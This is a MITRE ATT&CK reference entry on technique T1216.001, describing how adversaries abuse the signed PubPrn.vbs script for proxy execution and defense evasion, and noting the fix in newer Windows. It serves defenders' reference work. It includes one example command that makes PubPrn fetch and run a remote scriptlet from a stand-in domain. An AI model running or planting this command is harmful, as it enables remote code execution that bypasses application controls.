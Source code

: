 
|Field|Value|
|---|---|
|Tactic|[[Defense Evasion]]|
|Technique Name|**System Script Proxy Execution: PubPrn**|
|ID|**T1216.001**|
|Parent|[[T1216]]|
|Link|[T1216.001 - System Script Proxy Execution: PubPrn](https://attack.mitre.org/techniques/T1216/001)|

# Description

Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a [Visual Basic](https://attack.mitre.org/techniques/T1059/005) script that publishes a printer to Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the [Windows Command Shell](https://attack.mitre.org/techniques/T1059/003) via <code>Cscript.exe</code>. For example, the following code publishes a printer within the specified domain: <code>cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com</code>.(Citation: pubprn)

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.(Citation: Enigma0x3 PubPrn Bypass) To do so, adversaries may set the second <code>script:</code> parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is <code>pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct</code>. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), <code>PubPrn.vbs</code> has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to <code>LDAP://</code>, vice the <code>script:</code> moniker which could be used to reference remote code via HTTP(S).